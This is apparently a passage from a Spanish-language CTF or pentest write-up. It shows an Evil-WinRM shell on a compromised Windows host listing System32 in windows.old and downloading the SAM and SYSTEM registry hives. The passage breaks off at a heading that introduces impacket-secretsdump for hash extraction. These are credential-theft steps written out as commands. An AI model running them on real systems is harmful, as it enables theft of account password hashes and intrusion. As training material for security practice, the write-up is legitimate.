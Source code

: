 ```powershell
-a----         12/7/2019   1:09 AM           8690 ResPriImageListLowCost
-a----          4/4/2022   6:00 AM          57344 SAM
-a----          4/4/2022   6:00 AM       11636736 SYSTEM
-a----         3/25/2022   1:34 PM         230400 WorkFoldersShell.dll
-a----         3/25/2022   1:34 PM        2229576 workfolderssvc.dll
-a----         3/25/2022   1:31 PM         283648 wosc.dll
-a----         3/25/2022   1:32 PM         352816 wow64.dll
-a----         3/25/2022   1:32 PM          21288 wow64cpu.dll
-a----         3/25/2022   1:32 PM         531984 wow64win.dll
-a----         3/25/2022   1:33 PM          17920 wowreg32.exe
-a----         3/25/2022   1:31 PM         452608 WpAXHolder.dll
-a----         12/7/2019   1:08 AM         103424 wpbcreds.dll
-a----         3/25/2022   1:31 PM        1643008 Wpc.dll
-a----         3/25/2022   1:31 PM         336896 WpcApi.dll
-a----         12/7/2019   1:08 AM          10143 wpcatltoast.png
-a----         3/25/2022   1:31 PM        1867264 WpcDesktopMonSvc.dll
-a----         3/25/2022   1:31 PM        1173472 WpcMon.exe
-a----         12/7/2019   1:08 AM           4687 wpcmon.png
-a----        11/18/2020   6:48 PM          40448 WpcProxyStubs.dll
-a----         3/25/2022   1:34 PM          91648 WwanRadioManager.dll
-a----         3/25/2022   1:31 PM        1518080 wwansvc.dll
-a----        11/18/2020   6:48 PM          97600 wwapi.dll
-a----         3/25/2022   1:31 PM         233984 XamlTileRender.dll
-a----         12/7/2019   1:08 AM           3584 XAudio2_8.dll
-a----         3/25/2022   1:31 PM         623616 XAudio2_9.dll
-a----         3/25/2022   1:31 PM        1049088 XblAuthManager.dll
-a----         3/25/2022   1:31 PM          93696 XblAuthManagerProxy.dll
-a----         3/25/2022   1:31 PM         114688 XblAuthTokenBrokerExt.dll
-a----         3/25/2022   1:31 PM        1270272 XblGameSave.dll
-a----         12/7/2019   1:08 AM         159744 XblGameSaveExt.dll
-a----         12/7/2019   1:08 AM          39936 XblGameSaveProxy.dll
-a----        11/18/2020   6:48 PM          33792 XblGameSaveTask.exe
-a----         12/7/2019   1:08 AM            627 X_80.contrast-black.png
-a----         12/7/2019   1:08 AM            579 X_80.contrast-white.png
-a----         12/7/2019   1:08 AM            627 X_80.png


*Evil-WinRM* PS C:\windows.old\Windows\System32> download SAM
                                        
Info: Downloading C:\windows.old\Windows\System32\SAM to SAM
                                        
Info: Download successful!
*Evil-WinRM* PS C:\windows.old\Windows\System32> download SYSTEM
                                        
Info: Downloading C:\windows.old\Windows\System32\SYSTEM to SYSTEM
                                        
Info: Download successful!
*Evil-WinRM* PS C:\windows.old\Windows\System32>
```
#### En kali con impacket-secretsdump:
